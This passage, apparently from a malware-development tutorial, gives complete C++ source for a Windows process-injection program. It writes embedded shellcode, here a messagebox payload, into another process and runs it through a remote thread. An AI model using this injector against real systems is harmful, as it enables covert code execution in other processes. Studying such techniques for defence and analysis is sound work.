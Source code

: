 Let's take a look at example C++ source code of our malware which implement [classic code injection](/tutorial/2021/09/18/malware-injection-1.html):    
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  
  // 64-bit meow-meow messagebox without encryption 
  unsigned char my_payload[] = 
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```
